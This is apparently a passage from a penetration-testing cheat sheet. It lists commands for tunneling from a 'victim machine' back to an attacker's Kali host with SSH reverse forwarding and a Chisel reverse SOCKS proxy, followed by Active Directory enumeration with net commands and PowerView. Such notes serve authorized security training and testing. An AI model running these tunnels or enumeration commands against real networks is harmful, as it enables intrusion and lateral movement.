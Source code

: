 On victim machine:
```
ssh -N -R 9998 <<USERNAME>>@<<KALI_IP>>
```

This command sets up a remote port forwarding tunnel where any connections to port `9998` on the remote server `<<KALI_IP>>` will be forwarded to the SSH client machine

## Chisel

On kali:
```
chisel server -p 8001 --reverse
```

On victim machine:
```
.\chisel.exe client <<KALI_IP>>:8001 R:1080:socks
```

Edit `/etc/proxychains4.conf`:
```
socks 127.0.0.1 1080
```

# Active Directory

## Enumerating AD

### Legacy Tools

```
net user /domain
```

```
net user <<USERNAME>> /domain
```

```
net group /domain
```

```
net group "<<GROUP>>" /domain
```

### PowerView

```powershell
Import-Module .\PowerView.ps1
```

**Information about the domain**
```powershell
Get-NetDomain
```
